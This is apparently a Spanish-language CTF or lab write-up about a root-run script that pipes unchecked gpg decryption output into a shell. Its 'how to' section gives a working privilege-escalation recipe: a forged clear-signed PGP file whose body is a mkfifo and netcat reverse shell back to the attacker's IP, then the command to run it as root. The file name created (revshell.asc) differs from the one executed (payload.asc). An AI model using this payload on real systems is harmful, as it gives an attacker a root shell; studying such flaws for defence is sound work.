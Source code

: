 - **Diseño peligroso de la tubería:**  
  Una vez que se invoca `ash` con lo que gpg emite, cualquier dato que llegue a *stdout* se interpreta como comandos. La ejecución del shell **con privilegios de root** se basa solo en el supuesto de que el contenido fue producido por un proceso GPG que, de forma segura, solo mostrará el mensaje cifrado originalmente.  
  Si se puede burlar este supuesto (por ejemplo, manipulando el entorno de GPG o forzando que se procese contenido “plano” de manera que se haga llegar información útil por *stdout*), se puede lograr ejecutar comandos arbitrarios como root.

### ¿Qué implica?

El bug reside en no verificar el éxito de la operación de des-encriptación. Esto ofrece dos caminos para la explotación:

- **Modificar el payload para que sea interpretado como un mensaje PGP válido:**  
  Un atacante podría construir un “mensaje” que cumpla con el formato PGP (incluso aunque no esté realmente encriptado) de modo que gpg lo “desencripte” (o lo trate como mensaje claro) y lo envíe por *stdout*. Esa salida luego se canalizaría a `ash` y se ejecutaría como root.

- **Explotar alguna configuración de GPG o de su entorno:**  
  Dado que se fuerza `GNUPGHOME=/root/.gnupg/`, si se puede inducir a gpg a comportarse de forma inesperada (por ejemplo, por error en la creación o lectura de ese directorio) es posible que la salida (o parte de ella) incluya lo que el atacante desee.

### ¿Cómo hacerlo?

1. **Crea un mensaje PGP clear‑signed manualmente**  
   No necesitas la clave privada ni la clave pública real de root. Basta con formar un archivo con la estructura adecuada. Por ejemplo, crea un archivo (llamémoslo `payload.asc`) con este contenido:

   ```bash
    cat << 'EOF' > revshell.asc
    -----BEGIN PGP SIGNED MESSAGE-----
    Hash: SHA256

    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc TU-IP 8888 > /tmp/f
    -----BEGIN PGP SIGNATURE-----
    Version: GnuPG v1

    iQEzBAEBCAAdFiEEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCFAAAAAAAKCRAAAAAAAAAAAAAAAAD/2gAIAQEAAAA
    =dead
    -----END PGP SIGNATURE-----
    EOF
   ```

2. **Ejecuta el payload con el binario vulnerable**  
   Como ya estamos en el grupo `evs` y tenemos permisos para correr `/usr/local/bin/execute-crypted`

   ```sh
   /usr/local/bin/execute-crypted payload.asc
   ```

   Al ejecutar esto, gpg (que se ejecuta con GNUPGHOME apuntando a `/root/.gnupg`) usará la opción `--decrypt` sobre el archivo. Al tratarse de un mensaje clear‑signed, gpg imprimirá en stdout el contenido sin (poder) verificar la firma, y ese contenido (nuestro comando) se canalizará a ash, siendo interpretado y ejecutado como root.
